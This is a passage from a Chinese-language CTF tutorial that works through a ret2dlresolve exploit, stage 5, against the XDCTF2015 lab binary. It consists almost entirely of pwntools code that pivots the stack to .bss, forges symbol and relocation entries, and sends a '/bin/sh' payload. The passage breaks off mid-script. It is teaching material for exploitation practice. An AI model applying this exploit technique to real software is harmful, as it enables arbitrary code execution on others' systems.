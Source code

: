 ```python
payload2 += p32(len(cmd))
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym # (base_stage+36)的位置
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```

## 6.stage5

这一阶段，我们将在阶段 4 的基础上，我们进一步使得 write 符号的 st_name 指向我们自己构造的字符串。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

### making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
## plus 10 since the size of Elf32_Sym is 16.
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name, 0, 0, 0x12])

### making fake write relocation

## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
```